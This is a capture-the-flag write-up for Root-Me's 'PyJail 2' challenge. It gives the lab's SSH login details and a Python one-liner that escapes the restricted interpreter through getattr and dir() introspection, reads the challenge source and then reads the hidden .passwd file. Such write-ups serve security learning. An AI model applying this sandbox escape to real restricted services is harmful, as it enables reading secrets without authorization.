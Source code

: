 # Python - PyJail 2
**Category:** App - Script **Points:** 40 **Description:**
Statement
Retrieve validation’s password and get out of this jail.

Challenge connection informations :

| Host	        | challenge02.root-me.org
| Protocol      | SSH                                               |
| Port          | 2222                                              |
| SSH access    | ssh -p 2222 app-script-ch8@challenge02.root-me.org| 
| Username      | app-script-ch8                                    |
| Password      | app-script-ch8                                    |

# Write-up

Here is my solution with only getattr and open:
```python
c=getattr(getout, dir(getout)[-6]); cd=getattr(c,dir(c)[-10]); f=open(cd); l=getattr(f, dir(f)[-8]); 
f=open(l()[30][27:34]); l=getattr(f, dir(f)[-8]); print l()
```


Details:

>c=getattr(getout, dir(getout)[-6]); cd=getattr(c,dir(c)[-10])


Call func_code.co_name, i.e. name of the source file: /challenge/shell/shell9/shell9.py
Now we cat read it:

> f=open(cd); l=getattr(f, dir(f)[-8])


l contains the source code of the challenge, line 30 we find os.system("cat .passwd").
We can retrieve the name of the file and read it:

> f=open(l()[30][27:34]); l=getattr(f, dir(f)[-8]); print l()


Which prints the desired flag.

